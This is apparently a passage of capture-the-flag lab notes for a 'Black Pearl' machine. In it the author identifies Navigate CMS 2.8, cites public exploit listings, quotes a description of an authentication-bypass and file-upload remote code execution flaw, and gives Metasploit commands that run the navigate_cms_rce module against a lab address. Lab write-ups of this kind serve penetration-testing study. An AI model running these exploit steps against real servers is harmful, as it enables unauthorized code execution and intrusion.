- Navigate to [http://blackpearl.tcm/navigate](http://blackpearl.tcm/navigate)
  -  Navigate CMS v2.8

![](3-eth-hackassets/2024-07-14_19-31-18_633.png)

- Google for `navigate cms exploit`
  - [Navigate CMS - (Unauthenticated) Remote Code Execution (Metasploit)](https://www.exploit-db.com/exploits/45561)
  - [Navigate CMS Unauthenticated Remote Code Execution](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

> This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication. The module then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations. Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely. This module was tested against Navigate CMS 2.8. 

```bash
msfconsole
search navigate cms

use exploit/multi/http/navigate_cms_rce
set rhosts 192.168.31.129
set vhost blackpearl.tcm
show targets
run
```
